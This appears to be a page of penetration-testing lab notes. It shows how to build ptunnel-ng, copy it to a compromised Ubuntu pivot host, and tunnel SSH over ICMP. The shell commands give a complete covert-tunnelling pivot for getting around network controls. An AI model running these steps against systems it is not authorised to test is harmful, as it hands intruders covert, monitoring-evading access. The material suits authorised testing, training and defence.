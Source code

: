 **1.** Install ptunnel-ng in the attacker machine:

```shell-session
#########
# In the attacker machine
#######
git clone https://github.com/utoni/ptunnel-ng.git

# Once the ptunnel-ng repo is cloned to our attack host, we can run the autogen.sh script located at the root of the ptunnel-ng directory. Building Ptunnel-ng with Autogen.sh
sudo ./autogen.sh 

# Another way to build the ptunnel-ng binary
sudo apt install automake autoconf -y
cd ptunnel-ng/
sed -i '$s/.*/LDFLAGS=-static "${NEW_WD}\/configure" --enable-static $@ \&\& make clean \&\& make -j${BUILDJOBS:-4} all/' autogen.sh
./autogen.sh

# After running autogen.sh, ptunnel-ng can be used from the client and server-side. We will now need to transfer the repo from our attack host to the target host
scp -r ptunnel-ng ubuntu@$ipUbuntuCompromisedMachine:~/

# Connect to the ubuntu
ssh ubuntu@$ipUbuntuCompromisedMachine
```


**2.** Start the ptunnel-ng Server on the Target Host

```shell-session
#########
# In the Ubuntu compromised machine, our Pivot Host
#######
sudo ./ptunnel-ng/src/ptunnel-ng -r$ipUbuntuCompromisedMachine -R22
```

**3.** With the ptunnel-ng ICMP tunnel successfully established, we can attempt to connect to the target using SSH through local port 2222 (-p2222).

```shell-session
#########
# In the attacker machine
#######

# Connecting to ptunnel-ng Server from Attack Host
sudo ./src/ptunnel-ng -p$ipUbuntuCompromisedMachine -l2222 -r$ipUbuntuCompromisedMachine -R22
```


Now we can:

- OR Tunnel an SSH connection through an ICMP Tunnel

```
ssh -p2222 -lubuntu 127.0.0.1
```

